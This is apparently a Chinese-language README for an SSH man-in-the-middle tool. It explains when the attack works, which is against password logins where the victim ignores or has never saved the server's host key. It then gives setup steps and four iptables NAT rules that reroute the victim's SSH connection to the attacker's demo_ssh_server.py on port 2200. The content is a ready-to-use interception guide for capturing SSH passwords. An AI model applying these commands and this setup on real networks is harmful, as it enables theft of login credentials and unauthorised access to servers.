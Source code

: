 ## 场景
A -> We -> B. 我们已经成为了中间人的情况下. A尝试连接B的ssh服务.

## 适用范围
A 必须使用的密码验证登录B, 如果是用的publickey认证的, 就无法使用.
基于密码认证的情况下, A需要有以下某一种前提:
* A忽略掉证书server证书错误,将客户端的know_hosts 中的已保存密钥删除.
* A第一次连接这个ssh server.

## 使用方法
1. 配置iptables, 将A的所有流量转到我们的2200端口(可更改)
2. 将B回执给A的包转发给We的client.
3. `python demo_ssh_server.py`

## iptables规则如下

A:192.168.1.3<br/>
We:192.168.1.1;192.168.2.2<br/>
B:192.168.2.3<br/>

转发A的流量<br/>
`iptables -t nat -I PREROUTING -d 192.168.2.3 -p tcp --dport 22 -j DNAT --to-destination=192.168.1.1:2200`<br/>
`iptables -t nat -I POSTROUTING -d 192.168.1.3 -p tcp -j SNAT --to-source=192.168.2.3`<br/>
转发B的流量<br/>
`iptables -t nat -I PREROUTING -d 192.168.1.3 -p tcp -j DNAT --to-destination=192.168.2.2`<br/>
`iptables -t nat -I POSTROUTING -d 192.168.2.3 -p tcp -j SNAT --to-source=192.168.1.3`<br/>
